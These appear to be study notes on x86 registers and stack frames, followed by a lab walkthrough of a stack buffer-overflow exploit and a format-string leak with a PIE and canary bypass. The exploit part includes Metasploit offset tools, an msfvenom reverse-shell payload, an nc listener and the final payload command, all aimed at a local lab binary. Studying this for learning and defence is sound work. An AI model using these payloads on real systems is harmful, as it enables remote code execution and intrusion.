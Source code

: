 # Registers in x86
Structure of rax (64 bit)

<image src='images/rax.png'></image>

Only 2 reserved registers: rsp and rip (stack pointer, instruction pointer)

<image src='images/cpu_registers.png'/>

**Endianness**: reading from lower to higher addresses, our normal reading direction (left to right) is big endian

## General Registers
Prefix `e` means 32-bit, `r` means 64
### Data Registers
| 64-bit reg | Description                              |
| ---------- | ---------------------------------------- |
| rax        | Accumulator: IO, arith ops               |
| rbx        | Base: indexed addressing                 |
| rcx        | Counter: rotate instructors, count loops |
| rdx        | Data: IO, arith ops for muldiv ops of large values |

### Index Registers
For string ops
| 32-bit reg | Description                            |
| ---------- | -------------------------------------- |
| esi        | Source Index: pointer to source string |
| edi        | Pointer to dest                        |

### Pointer Registers
Memory grows towards **lower (smaller)** addresses
| 32-bit ops | Description                        |
| ---------- | ---------------------------------- |
| eip        | Offset address of next instruction |
| esp        | Top of stack (ie near to heap)     |
| ebp        | Base pointer: base of stack        |

- <font color="red">In 64-bit arch, the first 6 function params are passed to registers -- RDI, RSI, RDX, RCX, R8, and R9 -- not stack </font>. To leak the top of the stack with format string vulnerability, `%7$s` will leak the 7th value
- Values get written from lower to higher (ie esp->ebp direction). Thus, `str[0]` has lower address, and is nearer to TOS than `str[1]`

## Stack Frames
**Prologue** for when a function is called
```bash
push ebp # Stores ebp of parent function
mov ebp, esp # BP of new function is top of stack of current function
push ebx
sub esp, 0x<offset> # SP of new function is definitely even above (at smaller address) 
```

**Epilogue** for when a function ends
```bash
mov esp, ebp    # esp = ebp
pop ebp
ret
```

When `call` executes, it 
1. pushes return address onto stack
2. sets `eip` to call destination to jump to target function

# Return2Shellcode
## 1. Hijack EIP
Bytes shown in image belong to [HTB Academy](https://academy.hackthebox.com/module/31/section/397), useful for Section 2 illustration below
<image src='images/physical_memory_view_case_study_1.png'/>
Step 1: Generate a pattern string that causes SIGSEV

```bash
# Create string to copy using metasploit: before entering gdb
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <random_number> > pattern.txt
cat pattern.txt
```

Step 2: Calculate exact offset

```bash
# In gdb
info registers eip

# Outside gdb, calculate
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <eip_address_obtained_above>
```

Step 3: Verify with manual string

```bash
# In gdb. Below is for 32-bit, not 64
run $(python -c "print '\x55' * <offset_discovered> + '\x66' * 4")
```

## 2. Determine Length of Shellcode
Does it fit into the buffer between esp and eip?
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

Based on image in Section 1,
```bash
Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
NOPs = "\x90" * 100     # helps shellcode execute cleanly
Shellcode = "\x44" * 150  # larger than approximated number got from msvenom
EIP = "\x66" * 4
```
## 3. Identify Bad Characters Skipped in Program
Avoid them in shellcode. Bad chars are magic numbers

Create complete character set
```bash
# Create string of "\x00\x01\x02...\xff"
CHARS=$(for i in {0..255}; do printf "\\\x%02x" $i; done)
# Calculate number of bytes
echo $CHARS | sed 's/\\x/ /g' | wc -w   # num_char
```

**while $CHARS still have bad characters:**
```bash
# Buffer = "\x55" * (<offset_to_eip> - <num_chars> - 4)
# CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
# EIP = "\x66" * 4
```
Set breakpoint at function `break <func>`

```bash
# Add 4 to offset_to_eip because offset_to_eip only reaches the eip, but we also want to overwrite eip (4 bytes in this case study)
run $(python -c 'print "\x55" * (<offset_to_eip+4> - <num_chars> - 4) + <$CHARS copied> + "\x66" * 4')

# In gdb
x/2000xb $esp+<number_slightly_gt_offset_to_eip>       # Show 2000 hexadecimals in byte form like 0x55, <number_gt_offset> bytes towards ebp from esp
```
<details><summary>Original 256 characters here</summary>

```bash
run $(python -c 'print "\x55"*(1040-253-4) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66"*4')
```
</details>

Within stack memory, find the part with missing continuous bytes. Remove it from $CHARS

## 4. Generate Shellcode
Complete shellcode needs bad characters
```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --platform linux --arch x86 --format c --bad-chars "<bad_char_list like \x00\x0a>" --out shellcode

cat shellcode | grep \" | tr -d '"; \n' # Get shellcode string
```

## 5. Reverse-shell
In the current gdb terminal, find any address that contains NOP (`x/` command). Ensure that the address **does not have bad characters**. Write in **little-endian** (R2L) for Intel syntax

In another sshed-terminal, 
```
nc -nvlp 31337
```

In the current terminal, exit gdb and execute
```bash
./<file> $(python -c 'print "\x55"*(1040-253-4) + <shellcode> + "<\x...\x new_flow_addr>"')
```

Reverse shell obtained in another ssh terminal

# Format String Vulnerability
Memory is leaked with additional specifiers in `printf()`
- 32-bit arch: leaks from TOS (lowest addr of stack), as parameters are stored there **only**
- 64-bit arch: parameters are stored in the order RDI, RSI, RDX, RCX, R8, R9, then the stack. However, the first leaked position is RSI, because eg in `printf("%x %x")`, `"%x %x"` must be stored as an argument, so it is stored in the first placeholder -- RDI. When `printf()` executes, the pointer already points to RSI. Hence, `%6$x` leaks the first value on the stack, not `%7$x`

## Combating PIE
1. Identify the hidden functions that will remain in that stack frame regardless of the length of input buffer (ie entering long strings): real/gdb
2. Identify which parameter to leak (ie which `n` for `%n$lX`) the input. Can test it by iteratively do `ABCD.%1$lX.%2$lX...`
3. Identify which parameters to leak the hidden function in point 1 and canary
4. Get `dynamic_base_addr = dynamic_hidden_func_addr - static_func_addr<found_by_binary.symbols.hidden_func>`
5. `binary.address = dynamic_base_addr`
6. Get `binary.symbols.func_to_hijack_to`. Only execute this after step 5
7. Payload to fill up the buffer with junk + canary to bypass checks + 8-byte junk + addr in step 6